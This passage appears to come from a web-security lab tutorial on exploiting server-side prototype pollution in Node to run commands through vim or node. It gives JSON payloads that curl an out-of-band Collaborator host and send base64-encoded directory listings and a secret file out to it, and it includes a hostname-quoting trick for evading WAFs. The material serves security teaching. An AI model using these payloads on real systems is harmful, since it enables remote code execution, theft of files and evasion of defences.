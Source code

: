 Vim has an interactive prompt and expects the user to hit Enter to run the provided command. As a result, you need to simulate this by including a newline (\n) character at the end of your payload, as shown in the examples.

```json
"shell":"vim",
"input":":! <command>\n"
```

```json
"__proto__": {
    "shell":"vim",
    "input":":! curl https://YOUR-COLLABORATOR-ID.oastify.com\n"
}
```

To exfiltrate data to Burp Collaborator:

```json
"__proto__": {
    "shell":"vim",
    "input":":! ls /home/carlos | base64 | curl -d @- https://YOUR-COLLABORATOR-ID.oastify.com\n"
}
```

```json
"__proto__": {
    "shell":"vim",
    "input":":! cat /home/carlos/secret | base64 | curl -d @- https://YOUR-COLLABORATOR-ID.oastify.com\n"
}
```

The escaped double-quotes in the hostname aren't strictly necessary. However, this can help to reduce false positives by obfuscating the hostname to evade WAFs and other systems that scrape for hostnames.

```json
"__proto__": {
    "shell":"node",
    "NODE_OPTIONS":"--inspect=YOUR-COLLABORATOR-ID.oastify.com\"\".oastify\"\".com"
}
```

